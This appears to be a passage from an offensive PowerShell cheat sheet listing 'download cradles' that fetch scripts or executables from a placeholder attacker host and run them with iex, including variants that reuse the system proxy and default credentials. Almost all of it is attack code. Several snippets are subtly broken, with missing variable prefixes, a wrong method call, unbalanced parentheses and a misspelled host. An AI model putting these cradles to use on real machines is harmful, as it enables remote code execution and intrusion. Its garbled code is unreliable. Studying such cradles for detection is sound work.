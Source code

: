 - Header.Add method  
    `$downloader = New-Object System.Net.WebClient`  
    `$downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$command = $downloader.DownloadString($payload)`  
    `iex $command`
    
- Dowloading file to disk  
    `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/payload.exe"`  
    `$local_file = "C:/Program/payload.exe"`  
    `downloader.DownloadFile($payload, $local_file)`  
    `& $local_file`
    
- To use system proxy and default credentials  
    `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$cmd = $downloader.DownloadFile($payload)`  
    `$proxy = [Net.WebRequest]::GetSystemWebProxy()`  
    `$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials`  
    `$downloader.Proxy = $proxy`  
    `iex $cmd`
    

**Net.WebRequest**  
[Net.WebRequest](https://msdn.microsoft.com/en-us/library/system.net.webrequest(v=vs.110).aspx)

- `$req = [System.Net.WebRequest]::Create("http://attacker.rl/script.ps1")`  
    `$res = $req.GetResponse()`  
    `iex ([System.IO.StreamReader])($res.GetResponseStream())).ReadToEnd()`
- `$req = [System.Net.WebRequest]::Create("http://attacker.rl/script.ps1")`  
    `$res = $req.GetResponse()`  
    `$proxy = [Net.WebRequest]::GetSystemWebProxy()`  
    `$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials`  
    `$req.Proxy = $proxy`  
    `iex ([System.IO.StreamReader])($res.GetResponseStream())).ReadToEnd()`

**System.Xml.XmlDocument**  
[System.Xml.XmlDocument](https://docs.microsoft.com/en-us/dotnet/api/system.xml.xmldocument?redirectedfrom=MSDN&view=net-5.0)

```script.xml
<?xml version="1.0">
<command>
    <a>
        <execute>Get-Process</execute>
    </a>
</command>
```

Then we can run this by:  
`$xmldoc = New-Object System.Xml.XmlDocument`  
`xmldoc.Load("http://attacker.url/script.xml")`  
`iex $xmldoc.command.a.execute`  
  